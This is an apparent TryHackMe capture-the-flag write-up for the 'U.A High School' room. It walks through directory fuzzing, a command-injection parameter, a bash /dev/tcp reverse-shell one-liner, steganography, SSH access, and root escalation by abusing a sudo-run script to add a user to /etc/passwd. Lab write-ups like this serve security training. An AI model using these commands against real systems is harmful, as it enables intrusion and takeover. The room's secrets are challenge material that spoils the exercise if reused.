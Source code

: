 # Writeup for Room "U.A High School"

This is the writeup for the box U.A High School

## 🔍 Enumeration Phase

### 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/00.png)

![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/01.png)

### 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/02.png)

> [!NOTE]
> There is a file named ```index.php``` in the ```/assets/``` directory, the content of the file was:

![index.php](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/03.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/gotta-catch'em-all!/screenshots/04.png)

## 4. More Fuzzing 
- After performing a more extensive investigation, the software ```dirsearch``` allows us to use the command ```dirsearch -u http://<ip>/assets/index.php``` to find more directories and checks the urls for more information.

![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/05.png)

> [!NOTE]
> Dirsearch shows us a url where I can execute shell commands, the url is: ```http://<ip>/assets/index.php?cmd=whoami```

![cmd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/06.png)

## 🌐🖥️ 5. WebSite - Reverse Shell
- I decided to execute a reverse shell by injecting the following command in the URL: ```bash+-c+'bash+-i+>%26+/dev/tcp/ip/4444+0>%261'```.

![command-01](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/07.png)

- Then, I set up a listener with: ```nc -nvlp 4444```.

![command-02](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/08.png)

- I started navigating backwards in the current directory and found a folder named Hidden_Content, which contains a file called passphrase.txt. Inside, there is a Base64-encoded string: ```QWxsbWlnaHRGb3JFdmVyISEhCg==```.

![passphrase.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/09.png)

- The passphrase decoded is: ```AllmightForEver!!!```

![passphrase-2.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/10.png)

- The home has the following directories : 

![home-directories](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/11.png)

- I have seen the first flag but I got permission denied when I try to access the file.

![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/12.png)

- I to try to access by ssh with the user ```deku``` with the passphrase found before but without success.

![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/13.png)

- I have found several images in the ```/var/www/html/assets/images/``` directory.

![images](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/14.png)

- I have downloaded the images :

![images-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/15.png)

## 🕵️‍♂️🖼️ 6. Steganography

- I have used file and binwalk to check if the image has hidden information.

![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/16.png)

- I have used steghide with passphrase to extract the hidden information from the image but wihtout success.

![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/17.png)

- The ```oneforall.jpg```image is corrupted, I have changed the magic bytes to the following:

![magic-bytes](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/18.png)

- Now if I use steghide with the passphrase, I get new credentials.

![steghide-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/19.png)

![cred](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/20.png)

## 🔑 7. SSH Access

- I have used the credentials to connect to the machine:
  
![ssh-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/21.png)

- Here, I have gotten the first flag ```user.txt```

![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/22.png)

## 🐚💻🚀 8 Privilege Escalation

- I have tried to use the command ```sudo -l``` to check the privileges of the user ```deku```:

![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/23.png)

- I am going to use ```linpeas.sh``` into the machine to check vulnerabilities.

![linpeas-1](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/24.png)

![linpeas-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/25.png)

- I have checked the exploit sections: 

![exploits](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/26.png)

- If I look the version of the software ```pkexec``` I get the following output:

![pkexec](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/27.png)

> [!NOTE]
> The website used to identify the vulnerability has been:
> https://www.exploit-db.com/exploits/50689
> I can use the following vulnerability to escalate privileges: https://ine.com/blog/exploiting-pwnkit-cve-20214034

- I try this but I was not successful, I tried with ```sudo -l``` and the credentials of the user ```deku``` and I got the following output:

![sudo-l-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/28.png)

- The content file is :

![content-file](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/29.png)

- The part about exploiting the feedback.sh file to escalate privileges was quite challenging for me, and without the help of writeups to understand what it does, I wouldn't have been able to achieve it, as I wouldn’t have reached the conclusion of creating a user.

- First, I create a password using the command ```mkpasswd -m md5crypt -s```

![mkpasswd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/30.png)

- After creating the password, this password need be to formated in the following way:

![password-format](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/31.png)

- Second, I need to execute the feedback.sh file with the following command ```sudo /opt/NewComer/feedback.sh```

![feedback.sh](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/32.png)

- Now if I use the command ```tail -n1 /etc/passwd```, I can see the new user created.

![new-user](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/33.png)

- Finally, I can do a ```su MC``` with the password

![su-mc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/34.png)

- I have gotten the second flag ```root.txt``` into the home directory of the user ```MC```

![root.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/35.png)